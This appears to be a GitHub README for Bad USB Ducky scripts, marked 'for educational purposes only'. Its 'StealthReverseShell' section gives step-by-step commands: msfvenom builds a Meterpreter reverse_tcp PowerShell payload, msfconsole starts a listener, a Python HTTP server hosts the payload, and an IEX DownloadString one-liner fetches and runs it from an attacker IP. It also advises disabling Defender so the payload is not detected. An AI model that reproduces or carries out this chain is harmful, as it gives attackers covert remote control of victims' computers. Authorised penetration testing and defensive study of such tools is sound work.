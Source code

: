 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Tested and working on WIndows 11**

## **Steps to Compromise(StealthReverseShell):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
Insert video in markdown

